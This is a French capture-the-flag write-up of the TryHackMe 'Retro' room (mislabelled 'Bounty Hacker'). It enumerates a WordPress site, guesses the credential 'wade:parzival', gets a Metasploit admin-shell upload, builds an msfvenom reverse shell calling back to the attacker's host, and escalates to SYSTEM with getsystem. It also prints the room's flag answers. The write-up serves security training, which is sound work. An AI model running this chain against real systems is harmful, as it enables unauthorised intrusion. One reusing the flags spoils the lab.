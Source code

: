 # THM - Bounty Hacker
<p align="center">
  <img width="300" height="" src="./img/logo.jpeg">
</p>

Description | Difficulté | Lien
-------------|------------|-----
New high score! | Hard 🔴| [THM](https://tryhackme.com/room/retro)

Enumération des ports :
```
Port 80 et port 3389 ouvert
```

On regarde le port 80, on sait que c'est un IIS version 10.
On énumére les chemins avec dirsearch :
<p align="center">
  <img width="" height="" src="./img/img1.png">
</p>

Un second site est présent sur le chemin /retro/
> **Note**
> Première question : A web server is running on the target. What is the hidden directory which the website lives on ? ``/retro`` 

En allant dessus, on comprend que c'est un wordpress et j'utilise WPSCAN pour énumérer les vulnérabilités, je n'en trouve aucune, mais j'énumère les utilisateurs et je découvre le nom de "wade" qui est l'auteur de tous les articles.

En regardant les posts sur le site, on découvre que wade c'est mis un pense-bête dans un commentaire. Il met qu'il ne faut pas oublier comment s'écrit "parzival". 

J'essaye parzival comme mot de passe et bingo ça fonctionne.
Notre premier jeu de credential :
```
wade:parzival
```

Avec ce mot de passe, je me fait spawn un shell via metasploit :
```bash
msfconsole -q 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 10.10.185.133
RHOST => 10.10.185.133
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /retro/
targeturi => /retro/
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username wade
username => wade
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password parzival
password => parzival
msf6 exploit(unix/webapp/wp_admin_shell_upload) > check
[*] 10.10.185.133:80 - The target appears to be vulnerable.
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.14.49.211
LHOST => 10.14.49.211
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
```

On a un premier shell mais pas super stable, je décide d'envoyer un autre shell :
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.49.211 LPORT=4445 -f exe > shell.exe
```
Avec le premier shell exploité, j'upload le nouveau :
```bash
upload shell.exe
execute -f shell.exe
```
Et depuis une seconde console, j'execute msfconsole à nouveau :
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.14.49.211
LHOST => 10.14.49.211
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
Et enfin j'upgrade le shell vers meterpreter :
```bash
[CTRL + Z]
Background session 2? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.14.49.211
msf6 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf6 post(multi/manage/shell_to_meterpreter) > exploit
msf6 post(multi/manage/shell_to_meterpreter) > sessions 3
[*] Starting interaction with 3...

meterpreter >
```
Et enfin je deviens SYSTEM avec la commande getsystem qui facilite l'exploit :
```bash
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Je recupère les deux flags.
```cmd
type c:\Users\Wade\Desktop\user.txt.txt
3b99fbdc6d430bfb51c72c651a261927
type c:\Users\Administrator\root.txt.txt
7958b569565d7bd88d10c6f22d1c4063
```
> **Note**
> Seconde question : user.txt ``3b99fbdc6d430bfb51c72c651a261927``

> **Note**
> Troisième question : root.txt ``7958b569565d7bd88d10c6f22d1c4063``
